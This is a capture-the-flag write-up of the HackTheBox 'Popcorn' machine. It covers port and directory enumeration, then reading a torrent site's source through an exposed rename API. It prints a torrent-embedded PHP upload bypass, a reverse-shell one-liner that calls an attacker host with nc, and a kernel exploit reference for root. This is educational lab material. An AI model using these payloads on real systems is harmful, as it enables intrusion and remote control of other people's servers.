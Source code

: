 # HackTheBox - Popcorn

I started with the usual portscan.

`nmap -sS -sV -T4 <IP>`

![Screenshot0](./screenshots/0.png)

We are given an open SSH server and web server.

I started to take a closer look at the web server.

![Screenshot1](./screenshots/1.png)

The first thing we see is nothing special, just a simple default page telling us that the webserver is working.

So I started to enumerate the webserver manually and at the same time used tools like `FFUF`.

FFUF quickly showed us interesting results.

`ffuf -w directory-list-2.3-medium.txt -u http://<IP>/FUZZ -ic -c`

![Screenshot2](./screenshots/2.png)

Under `/test` was the output of a `phpinfo()`, which is not good in principle, since they give an attacker unnecessary information.

Even more interesting were the other two results.

Under `/rename` we find a self-proclaimed __Renamer API__ whose simple usage is explained to us.

![Screenshot3](./screenshots/3.png)

I immediately played around with it a bit and tested it.

It does what it promises, move/rename files that we have access to.

This one will surely come in handy for us soon!

And under the path `/torrent` we find an old software __Torrent Hoster__.

![Screenshot4](./screenshots/4.png)

I had done some research and learned that this software is vulnerable to `Shell Upload` and `XSS`.

I registered a user to test the application and uploaded a few torrent files for testing.

![Screenshot5](./screenshots/5.png)

The torrents are uploaded, but we do not know where they end up on the webserver and what extension they have, which we need to know if we want to upload malicious code.

`http://10.10.10.6/torrent/torrents.php?mode=details&id=d0d14c926e6e99761a2fdcff27b403d96376eff6`

![Screenshot6](./screenshots/6.png)

Well, this is where our __Rename API__ comes into the game.

I used this function to view the code of __Torrent Hoster__ by temporarily moving/renaming for example the PHP code of `torrents.php` and giving them a `.txt` extension to view the source code.

![Screenshot7](./screenshots/7.png)

I was then able to view the code at `http://<IP>/rename/torrent.txt`.

![Screenshot8](./screenshots/8.png)

After downloading the source code I moved the files back to its original place under the original name to not break the application.

In the source code of `upload.php` I learned how the naming of the uploaded torrent files happens and where they end up

__upload.php__

![Screenshot9](./screenshots/9.png)

Now that we know where our uploaded torrent files end up I tried to find a working upload bypass.

I ran into a few failed attempts until I came up with the idea of putting malicious PHP code into torrent files I created myself.

To do this I used `transmission-create`, created a torrent with `PHP code` in the comment of the torrent.

`transmission-create -o torrents/php.torrent -c "<?php phpinfo(); ?>" -t udp://tracker.new2.com:80 /tmp/torrent/file.txt`

I uploaded it, looked at what hash the torrent got and moved it to a `PHP file` using the __rename API__.

![Screenshot10](./screenshots/10.png)

And lo and behold, it works.

![Screenshot11](./screenshots/11.png)

Now I created a new torrent file with reverse-shell code inside and repeated the procedure.

`transmission-create -o torrents/cmd.torrent -c "<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <ATTACKER_IP> 1234 >/tmp/f'); ?>" -t udp://tracker.cmd.com:80 /tmp/torrent/file.txt`

It worked and I got a reverse shell as user `ẁww-data`.

Under `/home/george/` I got the user flag.

![Screenshot12](./screenshots/12.png)

## PrivEsc: www-data -> root

I started to enumerate the system and saw that the system is very old.

`cat /etc/issue`

![Screenshot13](./screenshots/13.png)

Wow, a really very old Ubuntu.

Here an old kernel exploit should do the job for us.

I used [CVE-2010-3904](https://www.exploit-db.com/exploits/15285) and got root.

![Screenshot14](./screenshots/14.png)







